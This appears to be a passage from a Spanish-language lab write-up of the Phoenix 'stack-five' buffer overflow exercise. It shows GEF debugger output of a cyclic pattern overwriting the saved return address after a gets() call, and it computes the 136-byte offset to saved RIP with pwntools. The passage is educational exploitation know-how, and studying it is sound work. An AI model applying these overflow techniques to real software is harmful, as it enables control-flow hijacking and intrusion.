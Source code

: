 ```csharp
0x00007fffffffe5d0│+0x0030: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x00007fffffffe5d8│+0x0038: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400594 <start_level+7>  or     BYTE PTR [rax-0x73], 0x45
     0x400598 <start_level+11> or     BYTE PTR [rax-0x77], 0xc7
     0x40059c <start_level+15> call   0x4003f0 <gets@plt>
 →   0x4005a1 <start_level+20> nop    
     0x4005a2 <start_level+21> leave  
     0x4005a3 <start_level+22> ret    
     0x4005a4 <main+0>         push   rbp
     0x4005a5 <main+1>         mov    rbp, rsp
     0x4005a8 <main+4>         sub    rsp, 0x10
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "stack-five", stopped, reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005a1 → start_level()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

ahora con el comando `info frame` vamos a ver la información del saved rip y vemos que ya pisamos este valor en este caso el valor quedó en saved rip = 0x6261616b6261616a

```csharp
gef➤  info frame
Stack level 0, frame at 0x7fffffffe630:
 rip = 0x4005a1 in start_level; saved rip = 0x6261616b6261616a
 called by frame at 0x7fffffffe638
 Arglist at 0x7fffffffe620, args: 
 Locals at 0x7fffffffe620, Previous frame's sp is 0x7fffffffe630
 Saved registers:
  rbp at 0x7fffffffe620, rip at 0x7fffffffe628
gef➤ 
```

Usamos `pwn cyclic -l <valor>` para localizar dentro del patrón el offset exacto que sobreescribe el **saved RIP**. En este caso, el valor `0x6261616b6261616a` que vimos en RIP durante el crash corresponde al byte número **136** de la cadena enviada, por lo que el **desplazamiento desde el inicio del buffer hasta el saved RIP** es de 136 bytes.

```csharp
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/Binarios/5_stack-five]
└─# pwn cyclic -l 0x6261616b6261616a
136
```

La pila para `start_level` se organiza con 128 bytes reservados para el buffer local, seguidos de 8 bytes para el *Saved RBP* y, finalmente, 8 bytes para el *Saved RIP* (dirección de retorno). Por lo tanto, desde el inicio del buffer hasta el *Saved RIP* hay **128 + 8 = 136 bytes**, que es el valor que debemos escribir para sobreescribir la dirección de retorno.
